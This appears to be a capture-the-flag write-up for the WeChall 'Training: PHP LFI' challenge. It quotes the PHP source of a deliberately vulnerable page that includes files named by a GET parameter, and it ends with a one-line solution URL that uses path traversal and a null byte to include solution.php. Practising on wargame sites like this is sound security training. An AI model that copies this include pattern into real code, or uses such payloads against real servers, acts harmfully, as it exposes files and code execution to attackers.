 Your mission is to exploit this code, which has obviously an LFI vulnerability:

```php
$filename = 'pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome").'.html';
include $filename;
```

There is a lot of important stuff in ../solution.php, so please include and execute this file for us.

Here are a few examples of the script in action (in the box below):
 - index.php?file=welcome
 - index.php?file=news
 - index.php?file=forums

For debugging purposes, you may look at the whole source again, also as highlighted version.

```php
<?php
# Higlighter Plain
if (isset($_GET['show']) && $_GET['show'] === 'source')
{
        header('Content-Type: text/plain; charset=utf8;');
        echo file_get_contents('index.php');
        die();
}
 
# Change dir to web root
chdir('../../../../../');
 
# Print the website header
define('GWF_PAGE_TITLE', 'Local File Inclusion');
require_once('challenge/html_head.php');
if (false === ($chall = WC_Challenge::getByTitle('Training: PHP LFI'))) {
        $chall = WC_Challenge::dummyChallenge('Training: PHP LFI', 2, 'challenge/training/php/lfi/up/index.php', false);
}
$chall->showHeader();
 
 
# Highlighter BBCode
if (isset($_GET['highlight']) && $_GET['highlight'] === 'christmas')
{
        echo GWF_Message::display('[PHP]'.file_get_contents($_SERVER['SCRIPT_FILENAME']).'');
        require_once('challenge/html_foot.php');
        return;
}
 
###############################
### Here is your exploit :) ###
###############################
$code = '$filename = \'pages/\'.(isset($_GET["file"])?$_GET["file"]:"welcome").\'.html\';';
$code_emulate_pnb = '$filename = Common::substrUntil($filename, "\\0");'; # Emulate Poison Null Byte for PHP>=5.3.4
$code2 = 'include $filename;';
### End of exploit ###
 
# Show the mission box
$url = 'index.php?file=';
$ex = array('welcome', 'news', 'forums');
$showsrc1 = 'index.php?show=source';
$showsrc2 = 'index.php?highlight=christmas';
foreach ($ex as $i => $e) { $ex[$i] = htmlspecialchars($url.$e); }
echo GWF_Box::box($chall->lang('info', array(GWF_Message::display('[PHP]'.$code.PHP_EOL.$code2.''), '../solution.php', $showsrc1, $showsrc2, $ex[0], $ex[1], $ex[2])), $chall->lang('title'));
 
# Execute the code, using eval.
GWF_Debug::setDieOnError(false);
GWF_Debug::setMailOnError(false);
eval($code.$code_emulate_pnb); # eval the first line
 
echo '<div class="box">'.PHP_EOL;
echo '<div class="box_t">'.$chall->lang('example_title').' ('.htmlspecialchars($filename).')'.'</div>'.PHP_EOL;
echo '<div class="box_c">'.PHP_EOL;
if (lfiIsSafeDir($filename) === true) { eval($code2); } # Eval the second line, when safe.
else { echo GWF_HTML::error('LFI', $chall->lang('err_basedir'), false); }
echo '</div>'.PHP_EOL;
echo '</div>'.PHP_EOL;
GWF_Debug::setMailOnError(true);
GWF_Debug::setDieOnError(true);
 
# Show credits box
if (false !== ($minus = GWF_User::getByName('minus')))
{
        echo GWF_Box::box($chall->lang('credits', array($minus->displayProfileLink())));
}
 
# Show end of website
echo $chall->copyrightFooter();
require_once('challenge/html_foot.php');
 
 
### Safety first ###
function lfiIsSafeDir($filename)
{
        $valid = array(
                'pages',
                'pages/../..',
                'pages/..',
        );
        $d = dirname($filename);
        return in_array($d, $valid, true);
}
?>
```
## Solution

http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00
